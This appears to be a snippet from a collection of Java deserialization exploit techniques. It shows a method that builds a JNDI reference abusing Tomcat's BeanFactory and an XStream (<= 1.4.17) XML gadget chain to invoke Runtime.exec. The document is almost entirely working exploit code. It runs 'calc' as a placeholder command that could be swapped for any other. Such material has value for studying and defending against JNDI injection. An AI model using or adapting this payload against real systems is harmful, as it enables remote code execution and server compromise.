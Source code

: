 ##### use `org.apache.naming.factory.BeanFactory` + `XStream`

> tomcat组件
>
> XStream <= 1.4.17

```java
private static ResourceRef tomcat_xstream(){
    ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
            "  <unserializable-parents/>\n" +
            "  <java.util.PriorityQueue>\n" +
            "    <default>\n" +
            "      <size>2</size>\n" +
            "    </default>\n" +
            "    <int>3</int>\n" +
            "    <dynamic-proxy>\n" +
            "      <interface>java.lang.Comparable</interface>\n" +
            "      <handler class='sun.tracing.NullProvider'>\n" +
            "        <active>true</active>\n" +
            "        <providerType>java.lang.Comparable</providerType>\n" +
            "        <probes>\n" +
            "          <entry>\n" +
            "            <method>\n" +
            "              <class>java.lang.Comparable</class>\n" +
            "              <name>compareTo</name>\n" +
            "              <parameter-types>\n" +
            "                <class>java.lang.Object</class>\n" +
            "              </parameter-types>\n" +
            "            </method>\n" +
            "            <sun.tracing.dtrace.DTraceProbe>\n" +
            "              <proxy class='java.lang.Runtime'/>\n" +
            "              <implementing__method>\n" +
            "                <class>java.lang.Runtime</class>\n" +
            "                <name>exec</name>\n" +
            "                <parameter-types>\n" +
            "                  <class>java.lang.String</class>\n" +
            "                </parameter-types>\n" +
            "              </implementing__method>\n" +
            "            </sun.tracing.dtrace.DTraceProbe>\n" +
            "          </entry>\n" +
            "        </probes>\n" +
            "      </handler>\n" +
            "    </dynamic-proxy>\n" +
            "    <string>calc</string>\n" +
            "  </java.util.PriorityQueue>\n" +
            "</java.util.PriorityQueue>";
    ref.add(new StringRefAddr("forceString", "a=fromXML"));
    ref.add(new StringRefAddr("a", xml));
    return ref;
}
```

